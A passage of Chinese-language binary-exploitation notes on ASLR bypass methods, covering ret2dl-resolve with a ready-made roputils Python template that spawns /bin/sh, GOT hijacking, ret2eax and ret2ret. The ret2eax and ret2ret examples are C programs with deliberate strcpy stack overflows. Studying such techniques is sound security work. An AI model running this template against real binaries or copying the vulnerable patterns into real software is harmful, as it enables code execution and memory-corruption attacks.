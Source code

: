 控制reloc_offset的数值，使const char *symname指向伪造的数据结构中的函数名。最后在function@got即&GOT+reloc_offset中填入我们伪造的symname（如system）函数的真实地址。

**ret2dl-resolve自动利用工具roputils**

```python
#现成32位模板：
from roputils import *
fpath = sys.argv[1]
offset = int(sys.argv[2])
rop = ROP(fpath)
addr_bss = rop.section('.bss')
buf = rop.retfill(offset)
buf += rop.call('read', 0, addr_bss, 100)
buf += rop.dl_resolve_call(addr_bss+20, addr_bss)
p = Proc(rop.fpath)
p.write(p32(len(buf)) + buf)
print "[+] read: %r" % p.read(len(buf))
buf = rop.string('/bin/sh')
buf += rop.fill(20, buf)
buf += rop.dl_resolve_data(addr_bss+20, 'system')
buf += rop.fill(100, buf)
p.write(buf)
p.interact(0)
```

**ASLR Bypass之GOT劫持**

当不能直接利用roputils时需要手动伪造两个数据结构、计算偏移和填充大小。

**ASLR Bypass之ret2eax**

```c
void msglog(char *input) {
    char buf[64];
    strcpy(buf, input);      //<---------返回值是一个存储在eax的指向buf的指针
}
int main(int argc, char *argv[]) {
    if(argc != 2) {
        printf("exploitme <msg>\n");
        return -1;
    }
msglog(argv[1]);
return 0;
}
```

随后，调用*eax就会把程序控制流劫持到buf上

**ASLR Bypass之ret2ret**

如果栈上有一个函数指针需要被执行，可以考虑这个ret = pop eip；jmp eip；

```c
void f(char *str) {
   char buffer[256];
   strcpy(buffer, str);
}
int main(int argc, char *argv[]) {
   int no = 1;
   int *ptr = &no;
   f(argv[1]);
}
```
